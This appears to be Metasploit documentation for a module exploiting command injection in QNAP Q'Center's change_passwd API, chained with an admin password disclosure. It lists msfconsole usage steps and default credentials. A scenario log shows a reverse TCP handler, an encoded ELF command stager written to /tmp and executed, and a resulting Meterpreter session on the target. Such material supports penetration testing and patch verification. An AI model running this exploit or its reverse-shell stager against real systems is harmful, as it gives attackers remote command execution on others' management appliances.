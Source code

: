 ## Description

  This module exploits a command injection vulnerability in the
  `change_passwd` API method within the web interface of QNAP Q'Center
  virtual appliance versions prior to 1.7.1083.

  The vulnerability allows the `admin` privileged user account to
  execute arbitrary commands as the `admin` operating system user.

  Valid credentials for the `admin` user account are required, however,
  this module also exploits a separate password disclosure issue which
  allows any authenticated user to view the password set for the `admin`
  user during first install.


## Vulnerable Application
 
  [QNAP Q'Center](https://www.qnap.com/solution/qcenter/index.php) is a central
  management platform that enables you to consolidate the management of multiple
  QNAP NAS devices.

  This module has been tested successfully on QNAP Q'Center appliance
  version 1.6.1075.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/http/qnap_qcenter_change_passwd_exec`
  3. `set RHOSTS <IP>`
  4. `set USERNAME <USERNAME>` (default: `admin`)
  5. `set PASSWORD <PASSWORD>` (default: `admin`)
  6. `run`
  7. You should get a session


## Options

  **USERNAME**

  Username for the application. (default: `admin`)

  **PASSWORD**

  Password for the application. (default: `admin`)


## Scenarios

  ```
  msf5 > use exploit/linux/http/qnap_qcenter_change_passwd_exec 
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set rhosts 10.1.1.112
  rhosts => 10.1.1.112
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > set verbose true
  verbose => true
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > check
  
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [*] 10.1.1.112:443 The target appears to be vulnerable.
  msf5 exploit(linux/http/qnap_qcenter_change_passwd_exec) > run
  
  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [+] Authenticated as user 'admin' successfully
  [*] Sending payload ...
  [*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\12\\1\\1\\305\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170\\20\\133\\211\\341\\231\\266\\14\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/ivFxR ; chmod +x /tmp/ivFxR ; /tmp/ivFxR ; rm -f /tmp/ivFxR"]
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 10.1.1.112
  [*] Command Stager progress - 100.00% done (701/701 bytes)
  
  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > sysinfo
  Computer     : 10.1.1.112
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```


